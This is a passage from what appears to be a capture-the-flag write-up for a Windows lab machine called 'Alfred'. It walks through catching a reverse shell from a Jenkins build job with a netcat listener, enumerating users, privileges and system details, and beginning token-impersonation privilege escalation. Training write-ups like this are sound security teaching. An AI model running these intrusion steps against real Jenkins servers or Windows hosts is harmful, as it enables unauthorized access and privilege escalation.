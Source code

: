 #### Step 4: Payload Execution

1. **Setup listener:**
   ```bash
   nc -lvnp 4444
   ```

2. **Trigger build job:**
   - Manual: Click "Build Now" in Jenkins
   - Automated: Script handles trigger automatically

3. **Verify shell access:**
   ```cmd
   whoami
   hostname
   systeminfo
   ```

### Phase 2: System Enumeration

#### User Context Analysis

```cmd
whoami
whoami /priv
whoami /groups
net user %username%
```

**Initial Access Results:**
• User: `alfred\bruce`
• Privileges: Standard user with some service permissions
• Groups: Various local groups

#### System Information Gathering

```cmd
systeminfo
hostname
ipconfig /all
net users
net localgroup administrators
```

**Key System Details:**
• OS: Windows Server 2008 R2
• Architecture: x64
• Current user: bruce
• Administrators: Administrator, bruce (not yet elevated)

### Phase 3: Privilege Escalation

#### Method 1: Token Impersonation

**Check for SeImpersonatePrivilege:**
```cmd
whoami /priv | findstr "SeImpersonatePrivilege"
```
